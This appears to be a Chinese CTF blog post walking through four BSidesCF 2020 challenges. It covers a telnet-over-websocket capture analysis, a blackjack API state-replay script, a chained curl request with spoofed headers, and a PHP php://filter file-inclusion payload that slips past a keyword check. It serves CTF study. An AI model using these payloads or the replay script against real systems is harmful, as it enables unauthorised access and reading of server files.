


+++
title = "bsidescf2020"
slug = "bsidescf2020"
description = "刷"
date = "2024-08-21T15:56:14"
lastmod = "2024-08-21T15:56:14"
image = ""
license = ""
categories = ["复现"]
tags = ["php", "流量分析"]
+++

# [BSidesCF 2020]Bulls23

先搞下来，解压发现是个`html`

本地搞个`html`网页来加载发现可以登录

发现第一个链接就是

```
http://bash.org/?random
```

找到是`websocket`流量

发现第二个链接

```
http://n-gate.com
```

中途发现端口是`8888`

但还是不懂，说的要追踪`TCP`流量,那就追踪

```
tcp.stream eq 363
```

然后随便选一条，导个`http`流量来看数据包

```
GET / HTTP/1.1
Host: bulls-23-047e34a4.challenges.bsidessf.net:8888
Connection: Upgrade
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Upgrade: websocket
Origin: http://bulls-23-047e34a4.challenges.bsidessf.net
Sec-WebSocket-Version: 13
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Sec-WebSocket-Key: BPt0gjw53Um/3wwGRobU3w==
Sec-WebSocket-Extensions: permessage-deflate; client_max_window_bits

HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: IRu2iJ6PyWj0BuG4Kme5KK3DEGE=
```

同时又找了一个追踪TCP流量也知道了密码

```
GET / HTTP/1.1
Host: bulls-23-047e34a4.challenges.bsidessf.net:8888
Connection: Upgrade
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Upgrade: websocket
Origin: http://bulls-23-047e34a4.challenges.bsidessf.net
Sec-WebSocket-Version: 13
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Sec-WebSocket-Key: BPt0gjw53Um/3wwGRobU3w==
Sec-WebSocket-Extensions: permessage-deflate; client_max_window_bits

HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: IRu2iJ6PyWj0BuG4Kme5KK3DEGE=

....... ..#..'..l.m...u>...=O.................,....[....&................!..?.ee.ef..... d.`.gD..........Kn.....g.o..Ubuntu 18.04.3 LTS
..5dfa026515b6 login: .........m...Hxo...i...rm|...c......{..h..3s..R..a..J.../..e....k....l...q..n..j.....r...o.....g...r..hO.....d..@.'.!..a.........n..k:l|a..
.
Password: ...X&....4...V....S.4....G......>...........J.6.z...
............^j.$*.....'{....7q..... 2.....#!...
.BLast login: Sun Feb 16 06:44:05 UTC 2020 from localhost on pts/0
. Welcome, the key is [REDACTED]
.*This account is currently not available.
....Target closed..N...M...<a..ne..=c.
```

得到用户名

```
michaeljordan
```

然后直接跟踪websocker流量就得到密码了`ib3atm0nstar5`

```
..... ..#..'..... ..#..'..........VT100................!..............!............Ubuntu 18.04.3 LTS
5dfa026515b6 login: mmiicchhaaeelljjoorrddaann

Password: ib3atm0nstar5

Last login: Sun Feb 16 06:44:05 UTC 2020 from localhost on pts/0
Welcome, the key is [REDACTED]
This account is currently not available.
```

看完流量包题目提供了一个页面链接一下

```
node5.buuoj.cn 25947
```

但是流量包那个html很明显是不够的这里需要把环境导入一下

`index.html`

```html
<html>

    <head>
        <title>Telnet client using WebSockets</title>
        <script src="include/util.js"></script>
        <script src="include/websock.js"></script>
        <script src="include/webutil.js"></script> 
        <script src="include/keysym.js"></script> 
        <script src="include/VT100.js"></script> 
        <script src="include/wstelnet.js"></script> 
        <!-- Uncomment to activate firebug lite -->
        <!--
        <script type='text/javascript' 
            src='http://getfirebug.com/releases/lite/1.2/firebug-lite-compressed.js'></script>
        -->


    </head>

    <body>

        Host: <input id='host' style='width:100'>&nbsp;
        Port: <input id='port' style='width:50'>&nbsp;
        Encrypt: <input id='encrypt' type='checkbox'>&nbsp;
        <input id='connectButton' type='button' value='Connect' style='width:100px'
            onclick="connect();">&nbsp;

        <br><br>

        <pre id="terminal"></pre>

        <script>
            var telnet;

            function connect() {
                telnet.connect($D('host').value,
                               $D('port').value,
                               $D('encrypt').checked);
                $D('connectButton').disabled = true;
                $D('connectButton').value = "Connecting";
            }

            function disconnect() {
                $D('connectButton').disabled = true;
                $D('connectButton').value = "Disconnecting";
                telnet.disconnect();
            }

            function connected() {
                $D('connectButton').disabled = false;
                $D('connectButton').value = "Disconnect";
                $D('connectButton').onclick = disconnect;
            }

            function disconnected() {
                $D('connectButton').disabled = false;
                $D('connectButton').value = "Connect";
                $D('connectButton').onclick = connect;
            }

            window.onload = function() {
                console.log("onload");
                var url = document.location.href;
                $D('host').value = (url.match(/host=([^&#]*)/) || ['',''])[1];
                $D('port').value = (url.match(/port=([^&#]*)/) || ['',''])[1];
                
                telnet = Telnet('terminal', connected, disconnected);
            }
        </script>

    </body>

</html>
```

其他的`js`去`GitHub`找吧，太多了



环境搭建好应该是这样的

也就来回登录了七八遍吧,这个终端应该是那种只能用大键盘的，如果用小键盘输入的话不行，数字也必须用大键盘的



欧克那么这道流量题也是过了，我之前是一道流量都不会看的也是了解了一下

# [BSidesCF 2020]Cards

是一个赌博系统

抓包发现是由接口来判定操作的比如

`/api/deal`,`/api/stand`

观察包里面的`SecretState`是不一样的而且是随机的

长度也有点不一样

但是逐渐的抓包发现如果我们输了，这个`SecretState`是不会变的，但是赢了就会更新，那么下注之后要开牌的话，必须得用新的`SecretState`,但是下注之后分数已经扣了，可还是有输的状态

> 利用21点中的一个规则，如果前两张牌已经是21点(black jack)，那么直接赢,直接省去开牌一直赢

借用Y4师傅的脚本

```python
import requests

start = "http://f264fbfb-3b13-40b5-bce5-69afd17df237.node5.buuoj.cn:81/api"
deal = start + "/deal"


# 开局
state = requests.post(start).json()["SecretState"]

while True:
    # 下注
    try:
        resp = requests.post(deal, json={"Bet": 500, "SecretState": state}).json()
    except:
        continue

    if resp['GameState'] == 'Blackjack':
        state = resp['SecretState']

    print(resp['Balance'])
    if resp['Balance'] > 100000:
        print(resp)
        break

```

# [BSidesCF 2020]Hurdles

考察`curl`的使用吧

- `%2500`进行URL解码之后就是`%00`。
- curl工具使用`-u`参数进行基本验证。
- curl工具中使用`-A`参数指定浏览器。
- curl工具中使用`-H`参数增加请求头。
- curl工具中使用`-b`参数添加Cookie。
- 请求头中，`Origin`指明当前请求来自于哪个站点。
- curl工具中使用`-i`参数显示响应头信息。

挨着打就行了

```shell
root@dkcjbRCL8kgaNGz:~# curl -X PUT http://node5.buuoj.cn:25762/hurdles
I'm sorry, Your path would be more exciting if it ended in !

root@dkcjbRCL8kgaNGz:~# curl -X PUT http://node5.buuoj.cn:25762/hurdles/!
I'm sorry, Your URL did not ask to `get` the `flag` in its query string.

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:25762/hurdles/!?get=flag'
I'm sorry, I was looking for a parameter named &=&=&

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:25762/hurdles/!?get=flag&%26%3D%26%3D%26=1'
I'm sorry, I expected '&=&=&' to equal '%00
'
这里他想要一个%00也就是换行,但是如果要生效的话必须还得是后面再来个换行
curl -X PUT 'http://node5.buuoj.cn:25762/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a'

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:25762/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a'
I'm sorry, Basically, I was expecting the username player.
由于不知道值是多少只能这么传
curl -X PUT 'http://node5.buuoj.cn:25762/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:player'

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:28548/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:player'
I'm sorry, Basically, I was expecting the password of the hex representation of the md5 of the string 'open sesame'

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:28548/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:54ef36ec71201fdf9d1423fd26f97f6b'
I'm sorry, I was expecting you to be using a 1337 Browser.

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:28548/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:54ef36ec71201fdf9d1423fd26f97f6b' -A '1337 Browser'
I'm sorry, I was expecting your browser version (v.XXXX) to be over 9000!

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:28548/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:54ef36ec71201fdf9d1423fd26f97f6b' -A '1337 Browser v.9001'
I'm sorry, I was eXpecting this to be Forwarded-For someone!

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:28548/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:54ef36ec71201fdf9d1423fd26f97f6b' -A '1337 Browser v.9001' -H 'X-Forwarded-For:192.168.128.130,127.0.0.1'
I'm sorry, I was expecting the forwarding client to be 13.37.13.37

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:28548/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:54ef36ec71201fdf9d1423fd26f97f6b' -A '1337 Browser v.9001' -H 'X-Forwarded-For:192.168.128.130,13.37.13.37'
I'm sorry, I was expecting this to be forwarded through 127.0.0.1

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:28548/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:54ef36ec71201fdf9d1423fd26f97f6b' -A '1337 Browser v.9001' -H 'X-Forwarded-For:13.37.13.37,127.0.0.1'
I'm sorry, I was expecting a Fortune Cookie

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:28548/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:54ef36ec71201fdf9d1423fd26f97f6b' -A '1337 Browser v.9001' -H 'X-Forwarded-For:13.37.13.37,127.0.0.1' -b 'Fortune=1'
I'm sorry, I was expecting the cookie to contain the number of the HTTP Cookie (State Management Mechanism) RFC from 2011.

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:28548/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:54ef36ec71201fdf9d1423fd26f97f6b' -A '1337 Browser v.9001' -H 'X-Forwarded-For:13.37.13.37,127.0.0.1' -b 'Fortune=6265'
I'm sorry, I expect you to accept only plain text media (MIME) type.

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:28548/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:54ef36ec71201fdf9d1423fd26f97f6b' -A '1337 Browser v.9001' -H 'X-Forwarded-For:13.37.13.37,127.0.0.1' -b 'Fortune=6265' -H 'Accept:text/plain'
I'm sorry, Я ожидал, что вы говорите по-русски.
说俄语

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:28548/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:54ef36ec71201fdf9d1423fd26f97f6b' -A '1337 Browser v.9001' -H 'X-Forwarded-For:13.37.13.37,127.0.0.1' -b 'Fortune=6265' -H 'Accept:text/plain' -H 'Accept-Language:ru'
I'm sorry, I was expecting to share resources with the origin https://ctf.bsidessf.net

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:28548/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:54ef36ec71201fdf9d1423fd26f97f6b' -A '1337 Browser v.9001' -H 'X-Forwarded-For:13.37.13.37,127.0.0.1' -b 'Fortune=6265' -H 'Accept:text/plain' -H 'Accept-Language:ru' -H 'origin:https://ctf.bsidessf.net'
I'm sorry, I was expecting you would be refered by https://ctf.bsidessf.net/challenges?

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:28548/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:54ef36ec71201fdf9d1423fd26f97f6b' -A '1337 Browser v.9001' -H 'X-Forwarded-For:13.37.13.37,127.0.0.1' -b 'Fortune=6265' -H 'Accept:text/plain' -H 'Accept-Language:ru' -H 'origin:https://ctf.bsidessf.net/challenges'
I'm sorry, I was expecting to share resources with the origin https://ctf.bsidessf.net

root@dkcjbRCL8kgaNGz:~# curl -X PUT 'http://node5.buuoj.cn:28548/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:54ef36ec71201fdf9d1423fd26f97f6b' -A '1337 Browser v.9001' -H 'X-Forwarded-For:13.37.13.37,127.0.0.1' -b 'Fortune=6265' -H 'Accept:text/plain' -H 'Accept-Language:ru' -H 'origin:https://ctf.bsidessf.net' -H 'Referer:https://ctf.bsidessf.net/challenges'
Congratulations!
但是没有得到flag,估计在返回头里面

root@dkcjbRCL8kgaNGz:~# curl -i -X PUT 'http://node5.buuoj.cn:28548/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:54ef36ec71201fdf9d1423fd26f97f6b' -A '1337 Browser v.9001' -H 'X-Forwarded-For:13.37.13.37,127.0.0.1' -b 'Fortune=6265' -H 'Accept:text/plain' -H 'Accept-Language:ru' -H 'origin:https://ctf.bsidessf.net' -H 'Referer:https://ctf.bsidessf.net/challenges'
HTTP/1.1 200 OK
X-Ctf-Flag: flag{552ea2bc-52e9-4083-8fc0-66d6439b377b}
Date: Wed, 21 Aug 2024 14:26:45 GMT
Content-Length: 16
Content-Type: text/plain; charset=utf-8
```

# [BSidesCF 2020]Had a bad day

很简单一个题，直接秒了

观察`url`发现可以文件包含

```
/index.php?category=php://filter/convert.base64-encode/resource=index
```

```php
<?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
```

嵌套一下就绕过了

```
/index.php?category=php://filter/convert.base64-encode/index/resource=flag

/index.php?category=php://filter/index/convert.base64-encode/resource=flag
```

就拿到了，测试一下不能带`php`也是很容易就测出来的，所以`index.php`也很容易拿到
